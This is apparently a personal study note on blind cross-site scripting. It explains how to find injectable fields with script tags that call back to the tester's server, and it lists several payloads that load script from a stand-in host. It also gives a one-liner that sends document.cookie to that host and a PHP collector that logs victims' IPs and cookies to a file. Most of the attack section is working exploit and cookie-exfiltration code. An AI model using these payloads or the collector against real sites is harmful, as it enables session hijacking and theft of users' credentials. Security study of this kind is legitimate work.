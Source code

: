 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/blind-xss-vulnerability/","tags":["XSS/BlindXSS","XSS"]}
---
```



A *blind XSS vulnerability* occurs when the vulnerability is triggered on a page we don't have access to.

To see if a hidden page is susceptible to *blind XSS* we use [[Programming/JavaScript\|JavaScript]] payload that sends an HTTP request back to our server.  If the code gets executed, we'll get a response on our machine.

To load a remote script we can provide the URL like so:

```html
	<script src="http://our_ip/script.js"></script>
```

We then change the field "script.js" name to the field that we're want (e.g, "username") so if we get a request for http://our_ip/username" then we know the username field is susceptible.

Some example payloads we can use from [PayloadsAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings):
```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

Generally, we try each available field with one of the payloads.  Set the payload to call http://our_IP/FieldName

Once we identify the field name, we use a payload that will call our machine and run a script (script.js) that makes a call with the document cookie.
```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```
Inject this code into the vulnerable field:
```html
<script src=http://OUR_IP/script.js></script>
```

This will yield two calls to our machine.  The first to get the script.  The script will fire and send a request with the cookie attached.

index.php has the following code:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
